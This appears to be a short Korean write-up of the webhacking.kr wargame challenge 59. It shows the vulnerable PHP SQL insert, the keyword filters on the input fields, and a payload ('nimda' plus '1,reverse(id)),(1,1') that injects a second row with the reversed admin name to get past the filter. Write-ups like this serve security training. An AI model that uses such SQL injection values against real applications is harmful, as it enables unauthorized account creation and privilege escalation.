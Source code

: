 ================================================================================================================
[webhacking.kr] 59
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {id=nimda&phone=1,reverse(id)),(1,1}",arrowhead="normal"];
        step3 -> step2[label="Add user",arrowhead="normal"];
    }

|


server -> DB
================================================================================================================

- PHP
- POST 파라미터: id, phone

.. code-block:: sql

    insert into c59 
    values('$_POST[id]',$_POST[phone],'guest')

|

insert
================================================================================================================

- admin 문자열에 대해 필터링이 걸려있기 때문에, reverse 함수를 이용하여 admin 문자열을 거꾸로 입력하는 방식을 사용합니다.
- eregi("admin",$_POST[id])
- eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])

.. code-block:: javascript

    $_POST[id] = nimda
    $_POST[phone] = 1,reverse(id)),(1,1

|